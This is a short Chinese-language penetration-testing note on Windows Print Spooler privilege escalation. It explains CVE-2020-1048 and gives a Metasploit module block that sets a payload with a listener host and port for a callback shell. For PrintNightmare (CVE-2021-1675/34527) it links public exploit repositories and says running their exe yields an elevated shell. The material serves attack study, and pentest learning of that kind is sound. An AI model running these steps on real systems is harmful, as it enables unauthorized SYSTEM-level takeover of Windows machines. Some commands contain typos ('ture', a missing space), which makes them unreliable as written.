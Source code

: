 # 利用Print Spooler提权

#### Print Spooler提权(CVE-2020-1048)

漏洞原理：微软打印机服务端口设置为文件路径，文件路径指向一个受保护的系统目录，由于没有权限，打印服务会失败，重启计算机系统时，将会触发微软的假脱机打印机制，重启后的Print Spooler就会直接使用system权限来恢复未执行的打印作业，如果这个时候打印机的端口为文件路径，将在系统上照成任意文件写入，用户可以通过写入二进制文件实现系统服务提权，也可以通过写入dll文件进行dll劫持。

```
use exploit/windows/local/cve_2020_1048_printdemon

set session 1
set verbose ture
set RESTART_TARGET true
set payload xxxx
setdisablepayloadhandler false
set lhost 10.10.10.26
set lport 9876
run
```

#### PrintNightmare(CVE-2021-1675\&CVE2021-34527)

漏洞原理：绕过`PfcADDprinterDriver`的安全验证，并在打印机中安装恶意的驱动程序

````
```
https://github.com/sailay1996/PrintNightmare-LPE

执行exe弹高权限shell
```
````

CVE-2021-34527

```
https://github.com/cube0x0/CVE-2021-1675
```
